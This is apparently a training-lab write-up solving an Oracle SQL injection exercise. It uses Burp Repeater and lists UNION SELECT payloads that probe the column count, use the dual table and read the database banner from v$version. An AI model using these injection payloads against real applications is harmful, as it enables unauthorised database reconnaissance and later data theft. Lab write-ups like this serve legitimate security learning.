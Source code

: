 ## SQL injection attack, querying the database type and version on Oracle

### Lab description
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

**Goal:** display the database version string. 
#### difficulty: APPRENTICE

---

## Steps
Make sure Burp Proxy is active and interception is ON, select category and forward this request to Repeater for for further modify and reuse.

Try determine columns number and which columns contains text by entering following queries: 
```SQL
' UNION SELECT NULL, NULL-- 500 Internal Server Error
```

when entering query use CTRL + U for URL-encode.

On Oracle databases, every SELECT statement must specify a table to select FROM, this table calls **dual**. Let's try 

```SQL
' UNION SELECT NULL, NULL FROM dual-- 200 OK
```

For determine DB version need to use banner from v$version table:
```SQL
'+UNION+SELECT+banner,+NULL+FROM+v$version-- 200 OK
```

>**Congratulations, you solved the lab!**
